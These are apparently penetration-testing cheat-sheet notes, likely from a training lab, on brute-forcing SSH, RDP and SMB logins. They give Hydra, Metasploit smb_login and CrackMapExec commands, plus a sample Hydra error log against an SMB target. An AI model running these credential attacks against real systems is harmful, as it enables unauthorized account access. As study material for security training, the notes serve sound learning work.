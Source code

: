 ## [SSH](https://www.notion.so/SSH-90501ba64a0e4697a9e2bc94062174f1?pvs=21)

```bash
hydra -L $usernames -P $passwords ssh://$ip
```

## [RDP](https://www.notion.so/RDP-d517a684a68d4b03aacc9611f19096ea?pvs=21)

```bash
hydra -L $usernames -P $passwords rdp://$ip
```

## [SMB](https://www.notion.so/SMB-f56764d7140d45aebbea731b97281492?pvs=21)

### brute-force Using Hydra

```bash
hydra -L $usernames -P $passwords smb://$ip
```

### Hydra Error

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-06 19:38:13
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 25 login tries (l:5236/p:4987234), ~25 tries per task
[DATA] attacking smb://10.129.42.197:445/
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile `hydra` or use another very powerful tool, the [Metasploit framework](https://www.metasploit.com/).

### Using Metasploit

```bash
use auxiliary/scanner/smb/smb_login
```

## Using CrackMapExec

```bash
crackmapexec smb $ip -u $usernames -p $passwords 
```
